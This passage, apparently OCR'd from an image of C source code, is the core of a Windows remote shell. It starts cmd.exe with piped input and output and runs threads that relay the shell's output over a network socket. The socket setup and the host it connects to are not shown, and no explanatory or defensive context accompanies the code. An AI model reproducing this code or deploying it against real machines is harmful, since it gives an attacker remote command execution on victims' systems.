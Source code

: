 ```c

    SECURITY_ATTRIBUTES sa = { sizeof(SECURITY_ATTRIBUTES), NULL, TRUE };
    HANDLE hInputWrite, hOutputRead, hInputRead, hOutputWrite;
    if (!CreatePipe(&hOutputRead, &hOutputWrite, &sa, 0) || !CreatePipe(&hInputRead, &hInputWrite, &sa, 0)) {
        fprintf(stderr, "Failed to create pipe.\n");
        CleanUp(NULL, NULL, NULL, NULL, { 0 }, result, sock);
        return 1;
    }

    STARTUPINFO startupInfo = { 0 };
    startupInfo.cb = sizeof(startupInfo);
    startupInfo.dwFlags = STARTF_USESTDHANDLES;
    startupInfo.hStdInput = hInputRead;
    startupInfo.hStdOutput = hOutputWrite;
    startupInfo.hStdError = hOutputWrite;
    PROCESS_INFORMATION processInfo;

    WCHAR cmd[] = L"cmd.exe /k";
    if (!CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &startupInfo, &processInfo)) {
        fprintf(stderr, "Failed to create process.\n");
        CleanUp(hInputWrite, hInputRead, hOutputWrite, hOutputRead, processInfo, result, sock);
        return 1;
    }

    CloseHandle(hInputRead);
    CloseHandle(hOutputWrite);
    CloseHandle(processInfo.hThread);
    ThreadParams outputParams = { hOutputRead, NULL, sock };
    ThreadParams inputParams = { NULL, hInputWrite, sock };
    HANDLE hThread[2];
    hThread[0] = CreateThread(NULL, 0, OutputThreadFunc, &outputParams, 0, NULL);
    hThread[1] = CreateThread(NULL, 0, InputThreadFunc, &inputParams, 0, NULL);

    WaitForMultipleObjects(2, hThread, TRUE, INFINITE);
    CleanUp(hInputWrite, NULL, NULL, hOutputRead, processInfo, result, sock);
    return 0;
}

void CleanUp(HANDLE hInputWrite, HANDLE hInputRead, HANDLE hOutputWrite, HANDLE hOutputRead, PROCESS_INFORMATION processInfo, addrinfo* result, SOCKET sock) {
    if (hInputWrite != NULL) CloseHandle(hInputWrite);
    if (hInputRead != NULL) CloseHandle(hInputRead);
    if (hOutputWrite != NULL) CloseHandle(hOutputWrite);
    if (hOutputRead != NULL) CloseHandle(hOutputRead);
    if (processInfo.hProcess != NULL) CloseHandle(processInfo.hProcess);
    if (processInfo.hThread != NULL) CloseHandle(processInfo.hThread);
    if (result != NULL) freeaddrinfo(result);
    if (sock != NULL) closesocket(sock);
    WSACleanup();
}

DWORD WINAPI OutputThreadFunc(LPVOID data) {
    ThreadParams* params = (ThreadParams*)data;
    char buffer[4096];
    DWORD bytesRead;
    while (ReadFile(params->hPipeRead, buffer, sizeof(buffer) - 1, &bytesRead, NULL)) {
        buffer[bytesRead] = '\0';
        send(params->sock, buffer, bytesRead, 0);
    }
    return 0;
}

```